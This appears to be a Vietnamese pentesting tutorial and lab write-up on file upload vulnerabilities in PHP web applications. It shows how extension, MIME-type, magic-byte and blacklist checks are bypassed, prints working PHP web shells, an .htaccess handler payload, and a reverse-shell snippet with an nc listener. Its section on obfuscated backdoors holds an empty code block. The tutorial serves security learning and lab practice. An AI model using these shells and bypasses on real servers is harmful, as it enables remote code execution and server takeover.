# File Upload
>Tên tài liệu: File Upload <br>
Thực hiện: Phạm Văn Tam <br>
Cập nhật lần cuối: 1/10/2024
>
# Mục Lục
[1.File upload vulnerabilities ](#p1) <br>
[2. Tìm kiếm các chức năng upload ](#p2) <br>
[3. Kỹ thuật upload backdoor ](#p3) <br>
[4. Kỹ thuật upload file độc hại ](#p4) <br>
[5 WriteUp Lab Vuln ](#p5) <br>

# Nội dung 
<a id="p1"></a>
## 1 File upload vulnerabilities
File upload là một tính năng phổ biến trong các ứng dụng web, cho phép người dùng chia sẻ hình ảnh, tài liệu hoặc các tệp khác. Tuy nhiên, nếu không triển khai một cách an toàn, tính năng này có thể trở thành một rủi ro bảo mật đáng kể, có thể dẫn đến truy cập không được ủy quyền, việc vi phạm dữ liệu và thậm chí là thực thi mã từ xa.
<a id="p2"></a>
## 2. Tìm kiếm các chức năng upload
Lưu ý: Luôn cần tải lên một tệp chuẩn định dạng theo yêu cầu của hệ thống để vượt qua cơ chế kiểm duyệt ở phía front-end. <BR>
- Dùng Burp Suite : Sử dụng tính năng spider hoặc crawling để tìm kiếm các chức năng upload
- Tools: "Dirsearch, FFUF" với wordlist ([link](https://gist.github.com/oppsec/c014b20b369b3855c97cb49d3a442885))
- Dùng "httpx, waymore" để tìm endpoint khả nghi và tìm dấu hiệu có chức năng upload
<a id="p3"></a>
## 3 Kỹ thuật upload backdoor
### 3.1 Bypass file extension: <br>

Cho phép upload đuôi `jpg, png, gif` và chặn các đuôi là `php`  => có thể bypass và upload đc file shell  `shell.jpg.php`  <br>
Bypass đuôi file: <br>
Lab: Chiếm quyền điều khiển server và đọc một tập tin bí mật ở thư mục gốc (đường dẫn /) để chứng minh bạn đã khai thác thành công <br>
 <br>
Tiến hành upload 1 file shell là `cmd.php` => Bị lỗi Hack detected <br>
 <br>
Xem source thì thấy rằng nếu check thấy extension là php => báo lỗi <br>
 <br>
Bypass bằng cách thêm 1 extension vào tên file: `cmd.abc.php?` vì đoạn code đang chỉ kiểm tra phần tử đầu tiên sau dấu `.` nên extension sẽ là `.abc` <br>
Upload file shell `cmd.abc.php` <br>
```
<?php system($_GET['cmd']); ?>
```
Upload thành công và dùng lệnh `?cmd=ls /` để đọc các thư mục ở `/` <br>
 <br>

### 3.2 Bypass đuôi file: <br>
Nếu file extension bao gồm `php, php3, php4, php5, phtml` => bị từ chối. <br>
Có thể bypass bằng cách đặt tên tệp là `shell.phphpp` <br>
### 3.3 Bypass dùng NULL byte khi phía Back-end luôn thêm đuôi file hợp lệ: <br>
```
function add_valid_extension($filename, $valid_extension) {
    return $filename . '.' . $valid_extension;
}

$filename = $_FILES['uploaded_file']['name'];
$valid_extension = 'jpg';
$filename_with_extension = add_valid_extension($filename, $valid_extension);
```
=>Ta có thể bypass bằng cách đặt tên tệp `shell.php%00`
### 3.4 Bypass Content-type
Vì Content-Type là một header trong HTTP request nên ta có thể dễ dàng thay đổi giá tr của nó bằng Burp Suite. <br>
 <br>
Ban đầu khi up 1 file php thì dạng Content-Type :`application/octet-stream` và nó không nằm trong các content type được cho phép upload: <br>
 <br>
=> Upload một file php và đổi Content-Type thành `./src/image/jpeg` và thành công upload shell <br>
 <br>
### 3.5 Bypass Extension với Web Server Apache
Upload file `.htaccess với content` là AddType `application/x-httpdphp .txt` sẽ cho phép chạy .txt như code <br>
Upload file txt và chạy code PHP <br>
B1: Upload .htaccess <br>
```
<FilesMatch ".+\.tam$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

B2: Upload shell .tam và chạy php bình thường <br>
 <br>
 <br>
### 3.6  Bypass File header(Magic byte)

Upload file với nội dung có dạng: <magic_bytes><php_code> <br>
Ví dụ: `GIF89a;<?php system($_GET['cmd']); ?>` <br>
 <br>
 <br>
<a id="p4"></a>
## 4. Upload backdoor nâng cao
### 4.1 PentestMonkey PHP Reverse Shell
Có thể update file shell sau <br>
```
<?php
$ip = 'YOUR_IP';
$port = YOUR_PORT;
$socket = fsockopen($ip, $port);
exec('/bin/sh -i <&3 >&3 2>&3');
?>
```
Và dùng nc để kết nối `nc -lvnp PORT` <br>
### 4.2 Upload backdoor với Obfuscation
Mã hóa nguồn backdoor <br>
```
<?php
                                                                                                                                                                                
?>
```
<a id="p5"></a>
## 5 WriteUp Lab Vuln 
 <br>
### 5.1 Unrestricted

Trang web chỉ cho phép upload file có format sau : `gif, jpg, jpeg, png` <br>
Nhưng check source code thì thấy <br>
```
<?php
    require("../../../lang/lang.php");
    $strings = tr();

    if( isset($_POST['submit']) ){

        $tmpName = $_FILES['input_./src/image']['tmp_name'];
        $fileName = $_FILES['input_./src/image']['name'];

        if(!empty($fileName)){
            if(!file_exists("uploads")){
                mkdir("uploads");
            }
    
            $uploadPath = "uploads/".$fileName;
    
            if( @move_uploaded_file($tmpName,$uploadPath) ){
                $status = "success";
                
            }else{
                $status = "unsuccess";
            }
        }else{
            $status = "empty";
        }


    }

?>
```
```$fileName = $_FILES['input_./src/image']['name'];``` : Tên tệp mà người dùng tải lên được lấy trực tiếp mà không kiểm tra. <br>
Vậy có nghĩa chúng ta có thể up 1 file shell.php. <br>
`move_uploaded_file($tmpName, $uploadPath);`: Hàm này di chuyển tệp từ thư mục tạm sang thư mục đích (ở đây là uploads/). Và chúng ta up file `.php` thì sẽ có thẻ RCE được trên server <br>
Upload thành công <br>
 <br>
Truy cập `URL + /uploads/cmd.php` và RCE thành công <br>


### 5.2 : MIME Type
Tương tự như 5.1 nhưng lần này anh dev đã thêm check MIME type để ngăn chặn việc upload các file nguy hiểm <br>

`$_FILES['input_./src/image']['type']` đã kiểm tra loại tệp dựa trên MIME type nhưng vẫn có thể bypass bằng cách đổi MINE type ở hear HTTP <br>

Upload thành công và RCE được server <br>

### 5.3 Magic Header
Ở level này đã thêm việc sử dụng `mime_content_type()` để kiểm tra loại tệp dựa trên MIME type thực sự. <br>

Bypass : <br>
`GIF89a;+ <shell php>` =>Upload thành công => RCE được server <br>


### 5.4 Blacklist - 1
Ở level này thì đoạn code đã <br>

`pathinfo($fileName)['extension']` lấy đuôi tệp và kiểm tra trong danh sách blacklist không cụ thể là `php` <br>
`if( !in_array($fileExt,$extensions) && trim($fileName) != ".htaccess")` : kiểm tra đuôi tệp ($fileExt) có nằm trong mảng $extensions hay không. <br>
`trim($fileName) != ".htaccess"` : ngăn chặn người dùng tải lên tệp .htaccess <br>
=> Chúng ta có thể up các file khác mà mod php có thể xử lý được như `php3, php4, php5, phtml` <br>


### 5.5 Blacklist - 2
Ở level này dường như đã chặn hết các đuôi file mà mod php có thể xử lý <br>

Vậy liệu mod php còn xử lý file nào nữa không <br>
Và cũng có thể tạo ra đuôi file mà chúng ta muốn với .htaccess <br>

Chúng ta upload thành công và có thể cho phép chạy .tam như code PHP và RCE thành công <br>
 



